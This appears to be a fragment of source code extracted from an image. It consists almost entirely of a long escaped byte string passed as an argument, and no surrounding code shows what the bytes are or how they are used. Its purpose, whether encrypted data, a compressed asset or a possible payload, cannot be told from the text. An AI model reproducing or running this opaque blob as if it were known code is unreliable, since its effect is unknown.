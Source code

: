 15\xbb\x33\xd0\xc0\x90\xc0\xac\xf0\xc3\x1f\x99\xce\x97\x0b\x70\x62\x1d\x57\x38\xdc\x97\xea\x0f\x8f\xb7\xc5\x01\x0d\x20\xe8\xdc\x0d\x6e\x17\x8f\x24\x3a\x1a\x34\xe5\xe5\x4a\x05\xea\x15\x1c\x81\xd5\x62\x5b\xdb\x5e\x01\x31\x8c\xb2\x57\x40\x9d\x8e\x8a\x57\xfd\xd8\x3e\xfc\x54\x2c\x0c\x25\xae\x30\x34\x86\x3a\x23\x43\x43\x22\xcf\xa4\x8b\xd3\xd2\xd8\xea\x34\x32\x7e\x26\xca\xd1\x1b\x5d\x71\x46\x6e\xee\x3c\x1f\x82\xd6\x31\x37\xb0\x13\x45\x86\x1c\xa4\x96\x9d\xba\x05\x76\x24\x5a\x3b\x6a\x77\x0f\x6f\x7b\x13\x83\x11\x1e\x51\x2b\xfe\xcd\x97\x68\x96\x94\xf7\x00\xf1\x73\x56\x37\xa6\x19\x6a\xac\x5d\xa4\xf9\x46\x6e\x4f\x83\x95\xf0\x22\xf4\x35\x8c\x6c\x77\x7d\x2c\xf2\xd6\xc6\x51\x36\x3d\x8b\x44\xc3\xd5\x90\x82\x6d\x39\x3f\xf0\x3f\xd9\xd1\xed\x28\xec\x0c\x3e\x1b\xc8\x90\x6c\xb5\xd3\x17\xf0\xbb\x02\xfc\x72\x12\x1a\xa9\x9c\x1e\x65\x50\x92\xe2\x82\x20\x46\xdf\xbf\xd8\x7c\x33\x0e\x2b\x1a\x4c\x23\x62\x50\xdf\x48\x3e\x2a\xce\x60\x65\xdd\xd1\x1a\xe1\xf6\x23\xd0\xb0\xab\x05\x52\xd9\x2b\x54\x90\xca\xa9\x33\xfc\x49\xb0\xb3\xce\xee\x46\xab\xd1\xb2\x92\x0f\x22\x05\xf6\x37\x6e\x56\x96\x18\xdc\x59\x0d\xca\x95\xfc\x11\x70\xfb\x5d\xad\xd4\xc4\x79\x8c\x2a\xf5\xa1\xa2\xa0\xd5\x49\x60\x13\x87\xb3\xda\x17\x31\xa0\x08\xaf\xd7\xc1\xda\xe5\xd6\xff\x9c\x70\x61\x1f\xeb\xe0\x9b\x12\xc1\x13\x18\x33\x25\x03\xbc\xd4\xb4\xcf\xad\x96\xa4\xc9\x28\x42\xed\x44\x54\xe7\x53\x35\x84\xe2\x4e\xaf\xaf\x02\x82\x8e\x63\x9f\x11\x88\x40\x2b\x16\xb1\x4b\x61\x47\xec\x4b\x3f\xdd\x3a\x6a\x36\x58\x1c\x2e\xb1\x4e\x0a\xe3\x5e\x46\x34\x63\xf4\x4f\x85\x0a\xec\x0a\x71\x3c\x95\xf8\xca\x98\x37\x41\xe2\x4d\x93\xde\x42\x80\x59\x41\x28\x52\x1c\x01\x5d\x96\x9c\x47\x25\x69\x2a\x36\x35\xe4\xcd\xa5\x4b\x47\x8d\xdb\xd6\x53\x11\x1c\x3e\x9f\x90\x71\x03\x63\xa3\xd2\xc2\xdb\xef\xd2\x20\xe3\x65\xc2\xe3\x7a\xce\xc9\x5a\x6e\x86\x78\x41\x9b\x67\xd5\xe8\xef\x69\x0e\xf0\x88\xc0\x2a\xb2\x70\x0e\xa1\xca\x6a\xbf\x50\x8e\xf6\x40\x59\xef\x8f\xb4\x16\xc6\xec\xe0\xa9\x09\x8e\xfd\x5c\x58\x61\x04\x20\x19\x13\x4c\x31\x87\xd4\x48\x1b\xcd\x3c\xa5\x07\x3f\xc9\x76\x62\x01\xd4\xe0\x0e\x20\xc9\xde\xf7\x0a\xdd\xed\x10\x33\x2a\x31\x83\xb2\x8c\xb0\x20\xd8\xac\xc5\x9b\xd4\xc8\xdf\xc0\x51\x00\x6a\xfe\x77\x31\x3a\xc0\xd0\x7d\xdd\x62\xb7\x97\x11\xb8\x32\x98\x3e\x01\x93\x4a\x9e\xf7\xe0\xa1\x42\x5c\x52\xcb\xb8\xbc\x5a\x04\x7c\xf4\xf0\x9f\x26\xf1\x02\x99\x03\x19\x0b\xb4\x2f\x87\x50\x7a\xa3\x6c\xc8\xde\xd5\x78\x34\xc3\xb1\x1a\x2c\xc7\xd0\xcb\x8b\x14\xe9\xe5\xf4\x54\x94\x21\xe0\xec\x81\x30\x1a\x95\xea\x2d\x1f\xe4\x4d\xdc\x21\x1b\xc6\x55\xd8\xe5\x24\xb2\xf9\xe8\x47\x89\x53\x6f\x72\x2c\xf9\x70\x71\x3e\xb9\xf3\x73\x9b\xbd\x0b\x02\xf8\x90\xe4\x3d\x94\x59\xfa\x09\xfd\x18\x0a\xc7\x8b\x4b\x0b\x00\x85\x34\x40\x5e\x2d\xe1\xb6\xad\xae\x35\xc4\xbe\x49\xd2\xbf\x4e\x9c\x45\xf6\x4d\x46\x64\x1c\x87\xb5\x13\xaf\x2d\x5d\x43\x5f\x07\x2f\x3b\x42\xbc\x45\xbe\xe6\x25\x01\xd3\xec\xbc\x22\xe7\x5c\x4b\x7b\x06\xcb\xc9\x8f\xa6\x66\x36\x1e\x63\x6c\xf5\x0d\xf7\x01\x2f\xae\x84\x74\xcd\x60\x31\x1d\x01\x38\x8e\x2d\x0e\x65\x2c\x32\xa9\x11\xd9\x26\xe2\x74\x34\xf6\x35\x69\x34\xc9\x44\x6c\x95\x68\x09\xbc\xbe\x1f\xe8\xf3\xef\x32\x73\x02\xd5\x56\x82\x3c\x2c\x27\xb7\x7b\x52\x50\x1c\xfb\x43\x0a\xba\x7b\xcf\x1d\xb3\x98\x7f\x25\xc7', 2)